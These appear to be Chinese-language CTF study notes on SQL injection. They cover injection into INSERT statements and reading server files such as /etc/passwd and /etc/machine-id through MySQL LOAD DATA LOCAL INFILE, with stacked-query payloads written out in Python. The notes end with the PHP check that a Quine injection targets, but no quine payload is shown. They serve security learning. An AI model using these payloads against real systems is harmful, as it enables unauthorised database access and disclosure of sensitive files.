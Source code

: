 ### 拼接改数据

例题

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364336781-fc56fffe-25cd-4e00-9197-d9d69a6ab064.png#averageHue=%232e2c2b&id=GIgAd&originHeight=146&originWidth=782&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364336870-b4ae2301-fa0b-4311-8a54-1ed4c52d77a2.png#averageHue=%23fcfcfc&id=rrROb&originHeight=169&originWidth=663&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

### 拼接确定注入回显点

在比如添加评论的地方，可以尝试拼接注入一下

```python
aa'),('a',database(),"aaa")#  回显了数据库，那么可以猜测后台是下面语句
insert into wfy_comments('text','user','name') values ('$_POST['comment']','$_POST['user']','$_POST['name']');
```

## 

## 

## 

## 

## 

## sql注入读文件

利用Mysql load data特性来读取文件

```python
load data local infile '/etc/passwd' into table test fields terminated by '\n';
```

先创建一张表再将文件读入表内。然后再联合查询读出文件的内容

```python
file = '/sys/class/net/eth0/address'
file = '/etc/machine-id'
file='/proc/self/cgroup'
payload1 = f'''1';create table {table_name}(name varchar(30000));load data  local infile "{file}" into table ctf.{table_name} FIELDS TERMINATED BY '\n';#'''
payload2 = f'''1' union select 1,2,3,4,(select GROUP_CONCAT(NAME) from ctf.{table_name})#'''
```

## Quine注入

下面就是经典的Quine注入代码

```python
if ($row['passwd'] === $password) {
        if($password == 'b2f2d15b3ae082ca29697d8dcd420fd7'){
            show_source(__FILE__);
            die;
        }
        else{
            die($FLAG);
        }
    } else {
        alertMes("wrong password",'index.php');
    }
```
